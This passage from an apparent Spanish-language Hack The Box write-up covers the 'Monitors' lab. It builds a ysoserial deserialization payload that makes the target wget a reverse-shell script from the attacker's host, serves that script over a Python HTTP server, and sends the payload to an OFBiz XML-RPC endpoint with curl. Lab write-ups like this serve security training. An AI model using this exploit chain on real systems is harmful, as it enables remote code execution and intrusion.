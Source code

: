```
java -jar ysoserial-all.jar CommonsBeanutils1 "wget <nuestraIP>/shell.sh -O /tmp/shell.sh" | base64 | tr -d "\n"; echo
```

![57](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-10-21-Monitors-Hack-The-Box/57.png){:class="blog-image" onclick="expandImage(this)"}

Para que el archivo `shell.sh` esté disponible y pueda descargarse en la máquina víctima, iniciaremos un servidor HTTP local con _Python_:

```
python3 -m http.server 80
```

Con este servidor corriendo, ahora podemos enviar nuestro primer _payload_ al servidor de destino. Para ello, utilizaremos `curl`, que enviará una solicitud al endpoint `webtools/control/xmlrpc` en el puerto `8443`. Esta solicitud incluye el _payload_ codificado en `base64` dentro de la etiqueta `<serializable>`. Al procesar la solicitud, el servidor deserializará el objeto y descargará el script de la _reverse shell_.

```
curl -s https://127.0.0.1:8443/webtools/control/xmlrpc -X POST -d "<?xml version='1.0'?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns='http://ws.apache.org/xmlrpc/namespaces/extensions'> PAYLOAD </serializable></value></member></struct></value></param></params></methodCall>" -k  -H 'Content-Type:application/xml' &>/dev/null
```

Aquí, `PAYLOAD` es el contenido `base64` que generamos en el paso anterior.
